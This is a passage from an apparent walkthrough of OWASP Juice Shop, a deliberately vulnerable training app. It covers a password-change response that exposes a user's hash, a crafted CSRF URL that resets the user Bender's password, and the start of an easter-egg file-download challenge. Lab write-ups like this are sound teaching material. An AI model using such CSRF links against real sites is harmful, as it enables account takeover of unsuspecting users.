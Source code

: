 ```
HTTP/1.1 200 OK
[...]

{"user":{"id":9,"email":"a@a.a","password":"db191973767f53d7b66d53f591cf2397","createdAt":"2018-08-02T00:56:00.473Z","updatedAt":"2018-08-08T01:02:32.754Z"}}
```

Oops! That's not good. We can confirm the password change was effective by logging in as `a@a.a` with the new password - looks good.

Now, construct a URL that if clicked by Bender would result in his password beign changed to 'slurmCl4ssic.'

```
http://juice.shop:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic
```

Since Bender isn't a real person and we can't use phishing or some related activity to cause him to click our link while logged in, we'll log in ourselves using the solution from [Login Bender of Level 3](/2018/08/07/owasp-juice-shop-v7.3.0-level-3.html) and paste the above URL into the browser.

![csrf](/img/owasp-juice-shop-v7.3.0/juice078.png)

Bingo.

![csrf](/img/owasp-juice-shop-v7.3.0/juice079.png)

# Easter Egg Tier 1
> Find the hidden easter egg.

We know there's a file called `easere.gg` in the `/ftp` directory and how to download non-markdown files from there as in the [Forgotten Sales Backup challenge of Level 3](/2018/08/07/owasp-juice-shop-v7.3.0-level-3.html).
